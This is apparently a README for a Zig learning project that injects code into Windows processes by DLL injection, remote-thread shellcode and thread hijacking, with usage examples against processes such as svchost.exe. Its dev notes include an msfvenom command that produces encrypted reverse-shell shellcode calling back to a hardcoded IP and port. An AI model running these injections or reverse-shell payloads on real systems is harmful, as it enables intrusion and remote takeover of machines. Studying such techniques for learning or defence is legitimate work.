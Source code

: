 # ZInjector

Simple Process injector for Windows (for now) written in Zig.


> [!NOTE]
> This is my first project in Zig so the code is pretty mmmm rude(?). The goal is to learn Zig and perform process injection.
> I haven't decided what to implement yet, but the first steps are to learn Zig and implement simple process injection attack on windows.

## Usage

### General syntax

```sh
zinjector <subcommand> [OPTIONS]
```

Most common:

* `zinjector --help` — general help
* `zinjector <subcommand> --help` — help for a subcommand

---

### Subcommands

#### `dll`

Performs a DLL injection into the target process.

Syntax:

```sh
zinjector dll --dll_path <path> (--pid <PID> | --process_name <name>)
```

Options:

* `--dll_path, -d` *(required)* — path to the DLL (e.g. `C:\tools\payload.dll`)
* `--pid, -p` — numeric PID of the target process
* `--process_name, -n` — executable name of the target process (e.g. `notepad.exe`)

Examples:

```sh
zinjector dll -d "C:\payloads\hook.dll" -p 1234
zinjector dll -d ./payload.dll -n notepad.exe
```

Notes:

* Provide **either** `--pid` **or** `--process_name`. If both are provided, behavior depends on implementation (prefer PID for precision).
* Ensure the DLL architecture (x86/x64) matches the target process architecture.
* Administrative privileges may be required.

---

#### `thread`

Creates a remote thread in the target process and runs an in-memory payload (shellcode).

Syntax:

```sh
zinjector thread (--pid <PID> | --process_name <name>)
```

Options:

* `--pid, -p` — numeric PID of the target process
* `--process_name, -n` — executable name of the target process

Examples:

```sh
zinjector thread -p 4321
zinjector thread -n Notepad.exe
```

Notes:

* The payload (shellcode) must be provided or obtained according to the implementation (file, stdin, embedded).
* Verify architecture and calling convention compatibility.
* Elevated privileges may be necessary.

---

#### `hijacking`

Performs thread hijacking: suspends a target thread, modifies its context, and resumes it to execute the payload.

Syntax:

```sh
zinjector hijacking --pid <PID>
```

Options:

* `--pid, -p` — numeric PID of the target process (recommended)

Examples:

```sh
zinjector hijacking -p 5555
```

---

### Full examples

```sh
# Inject DLL by PID
zinjector dll -d "C:\tools\inject.dll" -p 1010

# Run shellcode via remote thread by process name
zinjector thread -n svchost.exe

# Hijack thread in process
zinjector hijacking -p 2020
```

---

## Some cool resource for learning Zig and Process Injection

- [Zig Guide](https://zig.guide/)
- [Zig Standard Library](https://ziglang.org/documentation/master/std/)
- [LearnXInYMinutes](https://learnxinyminutes.com/zig/)
- [Process Injection Techniques](https://www.ired.team/offensive-security/code-injection-process-injection)
- [MITRE](https://attack.mitre.org/techniques/T1055/)
- [DLL Injector C++](https://github.com/leetCipher/Malware.development/tree/main/dll-injector)
- [Cool cheasheet (zig_in_depth)](https://codeberg.org/dude_the_builder/zig_in_depth)
- https://github.com/marlersoft/zigwin32/tree/main
- https://raw.githubusercontent.com/marlersoft/zigwin32/refs/heads/main/win32/everything.zig
- https://black-hat-zig.cx330.tw/
- https://privdayz.com/tools/shellcode-gen

### Legal and safety warning

These techniques modify other processes and can be used maliciously. Use only on machines and processes for which you have explicit authorization. The author assumes no responsibility for misuse.

## Dev

- Zig Version: 0.15.2
- OS: Arch Linux
- IDE: Zed
- LSP: Zls

Deps for cross-compiler on linux:  mingw-w64-headers,mingw-w64-gcc

## Todo:

- [x] PoC
- [x] Resolution of relative path to absolute path
- [x] Search process by name
- [x] Implement arguments parsing
- [x] Thread Remote creation with shellcode injection
- [ ] SetWindowHookEx Code Injection
- [ ] ...

## Command for dev/testing:

- Compile: `zig build -Dtarget=x86_64-windows -Dport=8080 -Dipv4=172.19.192.194 -Doptimize=ReleaseSmall --summary all`
- Test: `zig build test --summary all`
- Shellcode generator: `msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.118 LPORT=8080 -f zig --encrypt xor --encrypt-key a`
